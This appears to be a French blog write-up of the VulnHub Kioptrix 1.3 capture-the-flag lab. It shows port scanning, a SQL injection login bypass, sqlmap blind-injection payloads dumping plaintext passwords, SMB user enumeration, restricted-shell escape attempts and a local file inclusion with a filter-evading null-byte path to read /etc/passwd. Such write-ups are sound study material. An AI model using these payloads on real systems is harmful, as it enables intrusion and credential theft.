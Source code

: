 # Solution du CTF Kioptrix: 1.3 de VulnHub

Il est tant de boucler les *Kioptrix* existants avec ce [level 1.3](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/) publié en février 2012.  

It's Gonna Be Alright
---------------------

```plain
Nmap scan report for 192.168.1.39
Host is up (0.00021s latency).
Not shown: 39524 closed ports, 26007 filtered ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
|_  2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
MAC Address: 08:00:27:91:F5:1F (Cadmus Computer Systems)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2018-02-14T05:23:21-05:00
| smb-security-mode: 
|   Account that was used for smb scripts: guest
|   User-level authentication
|   SMB Security: Challenge/response passwords supported
|_  Message signing disabled (dangerous, but default)
|_smbv2-enabled: Server doesn't support SMBv2 protocol
```

Sur la page d'index du site se trouve une mire de connexion dont le champ password est vulnérable à une faille SQL :  

```plain
[*] Lancement du module sql
---
Injection MySQL dans http://192.168.1.39/checklogin.php via une injection dans le paramètre mypassword
Evil request:
    POST /checklogin.php HTTP/1.1
    Host: 192.168.1.39
    Referer: http://192.168.1.39/
    Content-Type: application/x-www-form-urlencoded

    myusername=default&mypassword=%C2%BF%27%22%28&Submit=Login
---
```

On peut bypasser l'authentification en mettant par exemple l'utilisateur *admin* et *' or 1 #* comme password mais alors on obtient l'erreur suivante :  

```plain
Oups, something went wrong with your member's page account.
Please contact your local Administrator to fix the issue.
```

Regardons avec sqlmap ce que cette base de données a dans le ventre :  

```plain
---
Parameter: mypassword (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: myusername=admin&mypassword=-9510' OR 8773=8773#&Submit=Login

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: myusername=admin&mypassword=ddd' OR SLEEP(5)-- gvLi&Submit=Login
---
```

L'utilisateur utilisé est *root@localhost*, sans mot de passe.  

Il y a une table intéressante :  

```plain
Database: members
Table: members
[2 entries]
+----+----------+-----------------------+
| id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
+----+----------+-----------------------+
```

Ce qui permet de s'authentifier comme *john* sur l'appli web... mais ça ne nous apporte rien de plus... si ce n'est nous dire qu'on est *john*.  

Une petite énumération SMB au cas où :  

```plain
msf auxiliary(smb_enumusers) > show options

Module options (auxiliary/scanner/smb/smb_enumusers):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS     192.168.1.39     yes       The target address range or CIDR identifier
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass    MyNameIsJohn     no        The password for the specified username
   SMBUser    john             no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads

msf auxiliary(smb_enumusers) > exploit

[*] 192.168.1.39:139      - 192.168.1.39 KIOPTRIX4 [ nobody, robert, root, john, loneferret ] ( LockoutTries=0 PasswordMin=5 )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Strength To Endure
------------------

Il y a un utilisateur *john* comme sur le site qui a bien sûr le même mot de passe :  

```plain
$  ssh john@192.168.1.39
john@192.168.1.39's password: 
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
john:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
john:~$ ls -al
total 28
drwxr-xr-x 2 john john 4096 Feb  4  2012 .
drwxr-xr-x 5 root root 4096 Feb  4  2012 ..
-rw------- 1 john john   61 Feb  4  2012 .bash_history
-rw-r--r-- 1 john john  220 Feb  4  2012 .bash_logout
-rw-r--r-- 1 john john 2940 Feb  4  2012 .bashrc
-rw-r--r-- 1 john john  118 Feb 14 05:43 .lhistory
-rw-r--r-- 1 john john  586 Feb  4  2012 .profile
john:~$ cat .lhistory
*** unknown command: cat
john:~$ ll; cat .lhistory
*** forbidden syntax -> "ll; cat .lhistory"
*** You have 0 warning(s) left, before getting kicked out.
This incident has been reported.
john:~$ ls | cat .lhistory
*** forbidden syntax -> "ls | cat .lhistory"
*** Kicked out
Connection to 192.168.1.39 closed.
```

Hmmm drôle de shell. Et il semble que l'on ne puisse pas le bypasser :  

```plain
$ ssh john@192.168.1.39 -C /bin/bash
john@192.168.1.39's password: 
*** forbidden path over SSH: "/bin/bash"
This incident has been reported.
$ scp backdoor.php john@192.168.1.39:/tmp/
john@192.168.1.39's password: 
*** forbidden path over SSH: "scp -t /tmp/"
This incident has been reported.
lost connection
```

J'ai choisi de retourner sur le site et d'utiliser le module *buster* de *Wapiti* :  

```plain
[*] Lancement du module buster
Found webpage http://192.168.1.39/images/
Found webpage http://192.168.1.39/index
Found webpage http://192.168.1.39/logout.php
Found webpage http://192.168.1.39/member
Found webpage http://192.168.1.39/logout
Found webpage http://192.168.1.39/member.php
Found webpage http://192.168.1.39/john/
Found webpage http://192.168.1.39/database.sql
Found webpage http://192.168.1.39/john/john
```

En se rendant sur ces pages on comprend que */john/john* est en réalité */john/john.php* qui est la page affichée une fois que l'on est identifié...  

L'utilisateur *robert* a aussi sa page *robert/robert.php*.  

L'URL de la page quand on est connecté est du type */member.php?username=nom\_de\_l\_utilisateur* ce qui laisse supposer que *member.php* fait une inclusion de *$user/$user.php*.  

Si on saisie l'adresse */member.php?username=/etc/passwd* on obtient le message *User //passwd* comme si le *etc* avait été retiré...  

Ce qui se confirme avec l'adresse */member.php?username=/etetcc/passwd*  

```plain
Warning: include(/etc/passwd//etc/passwd.php) [function.include]: failed to open stream: Not a directory in /var/www/member.php on line 14

Warning: include() [function.include]: Failed opening '/etc/passwd//etc/passwd.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/member.php on line 14
```

 Il ne reste plus qu'à se débarrasser du doublon avec */member.php?username=/etetcc/passwd%00* et là bingo:  


*Published February 22 2018 at 18:03*